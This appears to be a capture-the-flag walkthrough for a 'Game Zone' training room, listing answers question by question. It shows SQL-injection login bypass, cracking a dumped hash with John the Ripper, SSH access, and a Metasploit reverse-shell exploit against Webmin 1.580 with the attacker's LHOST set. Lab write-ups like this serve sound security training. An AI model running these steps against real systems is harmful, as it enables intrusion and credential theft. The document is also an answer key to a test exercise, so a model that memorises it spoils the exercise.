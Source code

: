 # Game Zone

- Deploy the machine and access its web server.

	  no answer needed

- What is the name of the large cartoon avatar holding a sniper on the forum?

	- `Agent 47`

- Here is a potential place of vulnerability, as you can input your username as another SQL query. This will take the query write, place and execute it.

	  no answer needed

- The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if 1==1, then comment the rest of the query to stop it breaking.

	  no answer needed

- When you've logged in, what page do you get redirected to?

	- `portal.php`

- In the users table, what is the hashed password?

	- `ab5db915fc9cea6c78df88106c6500c57f2b***************************`

- What was the username associated with the hashed password?

	- `agent47`

- What was the other table name?

	- `post`

- Once you have JohnTheRipper installed you can run it against your hash.

	  no answer needed

- What is the de-hashed password?

	- `video*******`

- What is the user flag?

	- `ssh agent47@<TARGET_IP>`, `yes` and enter password.
	- `pwd`
	- `ls`
	- `cat user.txt`
	- `***********************`

 - How many TCP sockets are running?

	- `5`

- What is the name of the exposed CMS?

	- `webmin`

- What is the CMS version?

	- `1.580`

- What is the root flag?

	- `msfconsole`
	- `search webmin 1.580`
	- `use 1`
	- `set payload cmd/unix/reverse`
	- `set PASSWORD ************`
	- `set USERNAME agent47`
	- `set LHOST <YOUR_IP>`
	- `SET RHOSTS 127.0.0.1`
	- `SET RPORT 10000`
	- `run`
	- `pwd`
	- `cat /root/root.txt`
	- `*************************`




